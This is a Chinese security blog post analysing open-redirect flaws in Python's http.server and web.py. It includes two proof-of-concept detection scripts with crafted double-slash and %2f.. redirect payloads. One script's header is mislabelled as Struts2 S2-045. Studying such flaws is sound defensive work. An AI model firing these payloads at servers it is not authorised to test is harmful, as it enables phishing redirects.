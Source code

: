 Title:python http.server和web.py的URL跳转漏洞实践
Date: 2018-01-20 10:20
Category: python安全
Tags: python安全,URL redirect
Slug: 
Authors: bit4woo
Summary: 



看了[Phithon的文章](https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html) 分析了2个python的web服务器中的URL跳转漏洞，自己也尝试跟着思路理一理。

### 0x0、函数的本意

这个函数的本意是：

判断当前请求的url中的path（也就是本例中的“email”）是不是一个存在的路径，如果是则通过301重定向到

email/  这是其他web服务器都具有的一个正常操作。

```
http://127.0.0.1:8000/email
会自动跳转到
http://127.0.0.1:8000/email/
```

可以通过浏览器正常访问试一试，正常的web服务器都会这样跳转。

![本来的功能](img/http.server/正常的请求.png)

通过断点调试看到的信息（关于调试给SimpleHTTPServer.py下断点，方法和给自己的代码下断点一样，因为它里面直接有一个测试函数，可以直接运行SimpleHTTPServer.py来启动一个web服务器）：

![本来的功能](img/http.server/本来的功能.png)



### 0x1、单斜杠和双斜杠对于ulrparse.urlsplit()

从phithon的文章中可以看出，要实现URL的跳转的一个关键是浏览器把双斜杠后面的内容当作域名。

我们在burp中试试，发现能通过可以构造出带双斜杠的Location返回（如下图）。

![双斜杠的差异](img/http.server/双斜杠的差异.png)



继续在代码中加断点中看看，可以看出，当请求的url是单斜杠时（如上图下半部分），email是被认为是path，当是双斜杠时却被认为是netloc。个人认为这是http.server和其他web服务器所不同的地方（比如nginx，自己试过，访问http://www.code2sec.com/img  和访问http://www.code2sec.com//img 的结果都是一样的，说明这2个请求中，img都被认为是path）。

![yyy](img/http.server/yyy.png)

可以看出，关键是urlparse.urlsplit()函数导致的。

![urlsplit](img/http.server/urlsplit.png)

再验证一下上面提到的nginx中是否可以构造出带双斜杠的Location。结果表明不行，所以，这个漏洞之所以成立的一个前提条件就是：使用了urlparse.urlsplit()来解析path导致可以构造出双斜杠的Location返回，否则这个漏洞将不成立。（所以修复方案是否可以朝着这个思路来？）

![nginx](img/http.server/nginx.png)

### 0x2、为什么需要%2f..



```
如果是：
http://127.0.0.1:8000//example.com//..
最后的/..将被浏览器处理，根本发送不到服务器端，发送到服务端的请求将是（可以抓包验证一下），
http://127.0.0.1:8000//example.com/

想要发送到服务器端，就必须对/进行URL编码,即
http://127.0.0.1:8000//example.com/%2f..
```

而到了服务器端，这个`//example.com/%2f..`将被translate_path()函数处理，会先进行url解码然后转换为系统路径

![translatepath](img/http.server/translatepath.png)

解码后的内容为//example.com//.. 也就是当前路径了。

![translatepath1](img/http.server/translatepath1.png)



### 0x3、PoC脚本

以上基本理清了poc中的一些关键点，附上自动化检测脚本，可直接用于POC-T。

http.server open redirect的poc

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

'''
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
paylaod: http://127.0.0.1:8000//example.com/%2f%2e%2e
测试状态：成功
'''

import requests
import urlparse
import sys

def poc(url):
    x = urlparse.urlparse(url)
    target = "{0}://{1}".format(x.scheme,x.netloc)

    payload = "{0}//example.com/%2f%2e%2e".format(target)

    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])
```

web.py open redirect的poc:

```python
# !/usr/bin/env python
# -*- coding:utf-8 -*-
__author__ = 'bit4woo'
__github__ = 'https://github.com/bit4woo'

'''
漏洞名称：Struts2漏洞S2-045
实验环境：VulApps/s/struts2/s2-045
参考链接：https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
测试状态：
'''

import requests
import urlparse
import sys
import urllib

'''
payload： http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html
说明：根据p神的文章，是只有处理静态文件的代码是继承了SimpleHTTPRequestHandler类，才会受到影响
所以，这里的提供的url，最好是静态文件的url，比如 js、css、图片的完整url。
'''


'''
#
import web

urls = (
    '/(.*)', 'hello'
)
app = web.application(urls, globals())

class hello:
    def GET(self, name):
        if not name:
            name = 'World'
        return 'Hello, ' + name + '!'

if __name__ == "__main__":
    app.run()
'''


def poc(url):
    print("you should provide a static resoure url, like js|css|image")
    x = urlparse.urlparse(url)
    path_list = x.path.split("/")
    path_list.pop()
    path_list.remove("")
    path_list.append("")# list是有序的
    path= "%2f".join(path_list)
    #path = urllib.quote(path)
    #print(path)
    target = "{0}://{1}".format(x.scheme,x.netloc)
    #http://127.0.0.1:8080////static%2fcss%2f@www.example.com/..%2f
    payload = "{0}////{1}@www.example.com/..%2f".format(target,path)
    print(payload)
    response = requests.get(payload,allow_redirects=False,timeout=3,verify=False)

    if response.status_code ==301:
        try:
            location = response.headers["Location"]
            if "example.com" in location:
                return True
            else:
                return False
        except:
            return False
            pass

if __name__ == "__main__":
    print poc(sys.argv[1])

```



参考：

https://www.leavesongs.com/PENETRATION/python-http-server-open-redirect-vulnerability.html